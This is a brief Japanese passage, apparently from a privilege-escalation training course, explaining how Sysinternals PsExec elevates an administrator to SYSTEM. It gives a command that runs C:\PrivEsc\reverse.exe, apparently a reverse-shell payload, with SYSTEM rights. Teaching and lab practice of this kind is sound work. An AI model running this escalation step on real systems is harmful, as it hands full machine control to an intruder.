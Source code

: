 管理者ユーザーから完全なSYSTEM権限に昇格させるにはWindows Sysinternals の PsExec ツールを使用することができます。   
(https://docs.microsoft.com/enus/sysinternals/downloads/psexec)   
コースツールの ZIP アーカイブにコピーが含まれています。

```
> .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```
